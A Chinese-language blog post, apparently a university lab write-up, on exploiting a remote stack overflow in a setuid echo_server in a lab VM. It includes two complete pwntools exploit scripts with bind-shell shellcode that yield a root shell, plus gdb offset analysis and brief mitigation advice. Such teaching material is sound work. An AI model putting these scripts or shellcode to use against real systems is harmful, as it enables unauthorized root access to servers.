 ```yaml
---
layout:     post   				    
title:      【安全攻防综合实验6】栈溢出-远程			
subtitle:   
date:       2021-10-20 				
author:     慕念 						
header-img: img/attack.jpg 	
catalog: true 						
tags:								
    - 安全攻防综合实验
---
```


## 【实验目的】

- 本实验所用虚拟机上有一个具有缓冲区溢出漏洞的可执行程序echo_server，具有’s’属性。 
- 要求在linux上编程，并利用相关调试工具，编写出一个利用该缓冲区漏洞的软件（远程），获得带有root权限的shell。要求在获得shell后证明已经是root权限。
- 鼓励实现自动化的exploit工具。实现全自动工具可得40分；实现半自动工具（采用手动方式串接其他工具/命令）得30分。



## 【实验步骤】

### 一、基础题

1、打开IDA对程序进行反编译，可以看到`main`函数调用了`echo_server()`函数：

![image-20211020095548452](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031942548.png)

`echo_server()`函数建立了socket连接，在5050端口进行监听。该函数的作用是回显远程输入的字符串，以及buffer地址信息，只有远程输入end才会退出子程序。可以根据这一特点，先产生溢出覆盖return address，等到end要退出时就可以跳转到我们构造的地址。

![image-20211020105625555](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031942474.png)

![image-20211020105523169](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031942505.png)

所以`send_buf`是要溢出的数组，在ida中看到虽然申请的是200bytes，实际上分配了`ebp-0xD4`，即212bytes。

![image-20211019132532130](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031942853.png)

212bytes中有32bytes是`"We send back the client input:  "`，此外还需要把old ebp的4bytes覆盖掉，所以一共需要输入212-32+4=184bytes才能到return address。

由于echo_server会显示send_buf的地址是`0xffffd1b4`（也没有开地址随机），通过计算可以算出要填充的shellcode的地址是：`0xffffd1b4+212+4+4=0xffffd290`。

![image-20211020110253717](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031942230.png)

所以栈的结构如图所示：

![](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031942599.jpg)

用pwntools写exp脚本，这里直接填了47个shellcode的起始地址，相当于填充了188bytes直接覆盖了return address。shellcode用的是ppt上绑定30364端口的shellcode，所以在最后还要再连接这个端口。

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

p = remote("192.168.112.139", "5050")

shellcode = b"\x31\xc0\xb0\x02\xcd\x80\x85\xc0\x75\x43\xeb\x43\x5e\x31\xc0\x31\xdb\x89\xf1\xb0\x02\x89\x06\xb0\x01\x89\x46\x04\xb0\x06\x89\x46\x08\xb0\x66\xb3\x01\xcd\x80\x89\x06\xb0\x02\x66\x89\x46\x0c\xb0\x77\x66\x89\x46\x0e\x8d\x46\x0c\x89\x46\x04\x31\xc0\x89\x46\x10\xb0\x10\x89\x46\x08\xb0\x66\xb3\x02\xcd\x80\xeb\x04\xeb\x55\xeb\x5b\xb0\x01\x89\x46\x04\xb0\x66\xb3\x04\xcd\x80\x31\xc0\x89\x46\x04\x89\x46\x08\xb0\x66\xb3\x05\xcd\x80\x88\xc3\xb0\x3f\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb8\x2f\x62\x69\x6e\x89\x06\xb8\x2f\x73\x68\x2f\x89\x46\x04\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\x5b\xff\xff\xff"

p.sendline((p32(0xffffD290))*47+shellcode)
p.recv()
p.recv()

p = remote("192.168.112.139", "5050")
p.sendline(b"end")
p.recv()

p = remote("192.168.112.139", "30464")

p.interactive()
```

运行截图：

![image-20211019125639948](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031942554.png)

![image-20211019125700543](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031942903.png)



### 二、加分项：`coredump`

1、发送200*a，会显示segmentation fault(core dumped），用gdb查看，发现eip指向0x61616161，说明return address被输入的a覆盖。

![image-20211020101902875](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031942692.png)

![image-20211020101034593](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031943450.png)

2、再尝试发送180*a，此时eip指向0x00000000，说明这时并没有被填充的'a'覆盖到：

![image-20211020102018689](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031943293.png)

3、用二分法继续尝试发送190\*a，eip指向0x61616161。再尝试发送185\*a，发现eip指向0x08000a61，说明return address的最低一个字节被a填充了，所以只需要填充184个字节，再填4Bytes就可以覆盖return address。

![image-20211020102337034](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031943975.png)

再查看寄存器，看到栈顶指针esp指向`0xffffd290`：

![image-20211020102606260](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031943445.png)

用`x/64wx 0xffffd200`取出栈上的部分内容，找到了填充起始的位置和ret addr的地址`0xffffd28c`。`0xffffd290`就是填充的shellcode开始的位置。

![image-20211020103147068](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031943370.png)

4、构造脚本：`184*a+0xffffd290+shellcode`

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

p = remote("192.168.112.139", "5050")

shellcode = b"\x31\xc0\xb0\x02\xcd\x80\x85\xc0\x75\x43\xeb\x43\x5e\x31\xc0\x31\xdb\x89\xf1\xb0\x02\x89\x06\xb0\x01\x89\x46\x04\xb0\x06\x89\x46\x08\xb0\x66\xb3\x01\xcd\x80\x89\x06\xb0\x02\x66\x89\x46\x0c\xb0\x77\x66\x89\x46\x0e\x8d\x46\x0c\x89\x46\x04\x31\xc0\x89\x46\x10\xb0\x10\x89\x46\x08\xb0\x66\xb3\x02\xcd\x80\xeb\x04\xeb\x55\xeb\x5b\xb0\x01\x89\x46\x04\xb0\x66\xb3\x04\xcd\x80\x31\xc0\x89\x46\x04\x89\x46\x08\xb0\x66\xb3\x05\xcd\x80\x88\xc3\xb0\x3f\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb8\x2f\x62\x69\x6e\x89\x06\xb8\x2f\x73\x68\x2f\x89\x46\x04\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\x5b\xff\xff\xff"

p.sendline(b"a"*184+p32(0xffffd290)+shellcode)
p.recv()
p.recv()

p = remote("192.168.112.139", "5050")
p.sendline(b"end")
p.recv()

p = remote("192.168.112.139", "30464")

p.interactive()

```

成功运行，获取root权限的shell：

![image-20211020104416379](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031943523.png)

![image-20211020104445648](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031943075.png)



### 三、一些思考

防范这类远程栈溢出应该防止远程用户控制服务端的send_buf，如果需要回显，可以通过strncpy这类限制长度的函数将recv_buf的内容复制到send_buf，避免栈溢出，而不是不限制长度。

此外还可以设置地址随机，栈不可执行和canary之类的手段避免栈溢出攻击。